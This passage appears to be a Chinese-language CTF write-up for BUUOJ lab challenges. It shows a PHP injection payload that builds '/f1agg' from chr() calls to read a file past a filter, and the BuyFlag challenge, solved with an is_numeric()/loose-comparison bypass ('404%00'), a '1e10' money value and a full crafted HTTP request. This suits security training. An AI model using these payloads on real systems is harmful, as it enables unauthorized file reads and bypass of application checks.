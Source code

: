    ```
   [7]=> string(5) "f1agg"
   ```

   读取flag：

   ```php
   ?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
   ```

   `file_get_contents()` 读取指定文件的内容，拼接chr字符得到字符串 `"/f1agg"` 从而获取flag：

   ```
   1string(43) "flag{d715621b-fd8a-480d-8127-c95614ff05c3} "
   ```


## [极客大挑战 2019]BuyFlag

F12发现PHP源码片段：

```html
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

`%00404` 可以绕过 `is_numeric()` 但 `$password==404` 不成立

`404%20` 与 `404%00` 既可以绕过数字判定又与404弱类型相等。

Cookie中 `user=1` 表示是Cuiter。

`money=100000000` 会提示传入长度过长，使用 `1e16` 即可通过money检测。

最终payload的HTTP包：

```http
POST /pay.php HTTP/1.1
Host: 1e5d8ff4-ebfd-4e54-85fc-3f24f03178db.node4.buuoj.cn:81
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1e5d8ff4-ebfd-4e54-85fc-3f24f03178db.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://1e5d8ff4-ebfd-4e54-85fc-3f24f03178db.node4.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=1
Connection: close

password=404%00&money=1e10
```
